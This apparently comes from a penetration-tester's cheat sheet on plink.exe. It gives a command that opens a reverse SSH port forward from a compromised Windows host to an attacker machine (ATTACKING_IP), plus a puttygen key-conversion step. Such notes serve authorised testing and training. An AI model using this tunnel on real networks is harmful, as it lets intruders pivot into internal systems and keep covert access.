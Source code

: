 # Plink.exe

[https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

```cmd
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

## Converting ssh-keygen keys

```
puttygen KEYFILE -o OUTPUT_KEY.ppk
```
